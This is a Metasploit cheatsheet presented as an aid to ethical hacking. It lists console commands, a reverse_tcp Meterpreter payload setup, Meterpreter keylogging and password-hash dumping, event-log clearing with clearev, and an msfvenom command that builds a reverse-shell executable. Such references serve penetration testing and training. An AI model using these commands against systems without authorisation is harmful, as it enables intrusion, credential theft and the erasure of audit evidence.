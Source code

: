 
# Metasploit Cheatsheet for Ethical Hacking

## Table of Contents

* [Getting Started](#getting-started)
* [Core Components](#core-components)
* [Common Commands](#common-commands)
* [Modules](#modules)
* [Payloads](#payloads)
* [Meterpreter Basics](#meterpreter-basics)
* [Post Exploitation](#post-exploitation)
* [Auxiliary Modules](#auxiliary-modules)
* [Database Usage](#database-usage)
* [Useful Tips](#useful-tips)

---

## Getting Started

```bash
msfconsole          # Launch Metasploit Framework console
msfupdate           # Update Metasploit
```

## Core Components

* **Exploit**: Code that takes advantage of a vulnerability
* **Payload**: Code executed after exploit succeeds (e.g., shell)
* **Auxiliary**: Scanners, fuzzers, etc. (non-exploit modules)
* **Post**: Modules for post-exploitation tasks
* **Encoders**: Obfuscate payloads

## Common Commands

```bash
search <term>                 # Search for modules
use <module>                  # Use a specific module
info                          # Get info on the module
show options                  # Show required options
set <opt> <val>               # Set value for an option
unset <opt>                   # Unset an option
show payloads                 # List compatible payloads
set PAYLOAD <payload>         # Set a payload
exploit / run                 # Launch the exploit/module
check                         # Check if the target is vulnerable
back                          # Exit current module
exit                          # Exit msfconsole
```

## Modules

### Types of Modules

```bash
exploit/windows/smb/ms17_010_eternalblue   # Exploit example
auxiliary/scanner/portscan/tcp             # Port scanner
post/windows/gather/enum_logged_on_users   # Post exploitation
```

### Finding Modules

```bash
search type:exploit name:ftp
search platform:windows
```

## Payloads

### Types of Payloads

* **Bind**: Opens a port on the target
* **Reverse**: Connects back to the attacker (common)

### Examples

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT <port>
```

## Meterpreter Basics

```bash
sysinfo              # Get system info
getuid               # Show current user
shell                # Drop into a system shell
background           # Background session
sessions             # List active sessions
sessions -i <id>     # Interact with a session
upload <src> <dst>   # Upload file
download <src>       # Download file
screenshot           # Take a screenshot
keyscan_start        # Start keylogger
keyscan_dump         # Dump keystrokes
hashdump             # Dump password hashes
```

## Post Exploitation

```bash
use post/windows/gather/hashdump
set SESSION <id>
run

use post/multi/recon/local_exploit_suggester
set SESSION <id>
run
```

## Auxiliary Modules

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
set THREADS 10
run
```

Other useful auxiliaries:

* `scanner/ftp/ftp_login`
* `scanner/http/title`
* `scanner/ssh/ssh_version`
* `scanner/smb/smb_version`

## Database Usage

```bash
db_status               # Check DB connection
workspace -a <name>     # Add new workspace
workspace <name>        # Switch workspace
hosts                   # Show scanned hosts
services                # Show discovered services
vulns                   # Show vulnerabilities
notes                   # Show notes added
loot                    # List loot
```

## Useful Tips

* Use `setg` to set global options across all modules:

```bash
setg LHOST <your_ip>
```

* Save output logs:

```bash
spool /path/to/output.txt
```

* Clean up after a session:

```bash
clearev     # Clear event logs
```

* Generate standalone payloads:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o payload.exe
```
